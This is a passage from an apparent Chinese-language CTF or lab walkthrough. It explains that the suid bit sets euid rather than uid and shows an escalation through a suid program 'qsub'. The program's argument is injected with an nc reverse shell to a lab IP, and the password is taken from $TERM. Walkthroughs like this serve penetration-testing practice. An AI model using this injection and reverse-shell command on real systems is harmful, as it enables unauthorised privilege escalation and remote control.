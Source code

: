 另外一提，suid bit 其实设置的是 euid，不是 uid。并不是真正意义上的 pinky 用户，只是程序运行时临时借用 pinky 权限。

[![](assets/1703831476-1faf057a8f99308155a82acf90a32318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224604-a954709a-a4c6-1.png)

## 八、shell as user2（suid）

执行 suid 程序，拼接反弹 shell 语句，密码为环境变量$TERM 的值 xterm-256color，可以看到 uid 是 1000。  
（测试过程中，这里如果拼接 bash -p 虽然可以保留 euid，拿到 pinky 用户权限，可以 cd 切换目录但是输入命令会无后续回显。如果拼接反弹 shell 就正常了）

```plain
./qsub '&(nc 192.168.80.129 2211 -e /bin/bash)'
```

[![](assets/1703831476-144948045656b06bb9019920366f04d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224617-b146fade-a4c6-1.png)
